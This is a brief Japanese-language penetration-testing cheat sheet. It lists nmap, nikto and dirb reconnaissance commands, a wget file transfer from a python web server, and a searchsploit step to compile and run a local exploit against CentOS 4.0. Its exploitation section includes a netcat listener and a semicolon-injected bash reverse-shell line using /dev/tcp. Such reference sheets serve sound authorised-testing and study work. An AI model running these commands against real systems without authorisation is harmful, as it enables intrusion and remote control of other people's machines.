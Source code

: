 
## Reconnaissance

ホスト確認

    nmap -sn [address]/24

ポート確認

    nmap -v -p 1-65535 -sV -sT -Pn [HOST]
    nmap -v -A [HOST]

Webサーバ

    nikto -h [HOST]
    dirb http://XXX.com/

状態確認

    uname -a
    cat /etc/redhat-release
    cat /proc/version

## Delivery

http転送

    python -m SimpleHTTPServer 9998
    wget http://address:9998/file


## Exploitation

bashリバースシェル http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

    nc -lvp 9999
    ;bash -i >& /dev/tcp/ip/9999 0>&1

exploitdb https://github.com/offensive-security/exploitdb

    searchsploit CentOS 4.0
    cp /opt/exploitdb/exploits/linux_x86/local/XXX.c XXX.c
    gcc gcc XXX.c -o test
    ./test


